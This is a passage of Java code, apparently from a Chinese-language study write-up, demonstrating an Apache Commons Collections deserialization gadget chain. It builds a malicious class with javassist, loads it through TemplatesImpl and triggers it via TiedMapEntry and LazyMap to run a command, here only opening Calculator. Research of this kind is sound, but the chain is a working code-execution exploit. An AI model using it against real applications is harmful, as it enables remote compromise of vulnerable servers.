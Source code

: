 测试代码：

```java
package CommonsCollections5;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.comparators.TransformingComparator;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 1:47 下午
 */
public class TiedMapEntryDemo {

    public static void TiedMapEntryDemo() throws NotFoundException, CannotCompileException, NoSuchFieldException, IllegalAccessException, IOException {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("Evil");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetCode = new byte[][]{shellCode};

        TemplatesImpl obj = new TemplatesImpl();
        Class clazz = obj.getClass();
        Field _name = clazz.getDeclaredField("_name");
        Field _bytecode = clazz.getDeclaredField("_bytecodes");
        Field _tfactory = clazz.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(obj, "h3rmesk1t");
        _bytecode.set(obj, targetCode);
        _tfactory.set(obj, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{obj})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, 1);
        tiedMapEntry.toString();
```